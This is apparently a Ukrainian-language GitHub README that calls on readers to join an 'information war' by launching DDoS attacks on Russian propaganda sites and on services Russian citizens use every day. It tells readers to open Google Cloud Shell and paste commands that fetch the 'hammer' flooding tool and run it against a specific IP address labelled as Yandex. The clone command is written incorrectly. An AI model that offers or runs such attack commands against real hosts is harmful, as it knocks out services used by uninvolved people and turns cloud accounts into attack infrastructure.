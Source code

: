 
# Справжня інформаційна війна

### Зараз йде війна не тільки реальному але й *інформаційному просторі*. В містах та селах за нас борется ЗСУ та тероборона, а в інтернеті можемо боротися і всі ми, навіть якщо ви далекі від теми програмування.

А все завдяки **DDos атакам** на пропагандистські російські сайти, а також на сайти якими користуються її громадяни в повсякденному житті.

>DDoS attack (*розподілена атака на відмову в обслуговуванні*) - напад на комп'ютерну систему з наміром зробити комп'ютерні ресурси недоступними користувачам, для яких комп'ютерна система була призначена)

Завдяки ним ми можемо *лишити їх можливості черпати фейкову інформацію та поширювати її*. Все що від вас потрібно, перейти [за цим посиланням](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal), при необхідності створити гугл акаунт, і ввести ці команди в *строку термінала*
***
### Requierments
- Web Browser
- Google Account
- Keyboard
***
### DDOS >> YANDEX
```
https://github.com/cyweb/hammer && cd hammer \
python3 hammer.py -s 5.255.255.50
```

***
  
Цим саме ви запустите DDos атаку з вашого пристрою. Ось так, сидячи вдома, ви можете допомогти своїй країні в інформаційному просторі. **Слава Україні!**
> детальніше ознайомитися з даною ситуацією Ви можете за цим посиланням:
> **https://github.com/curated-intel/Ukraine-Cyber-Operations**
2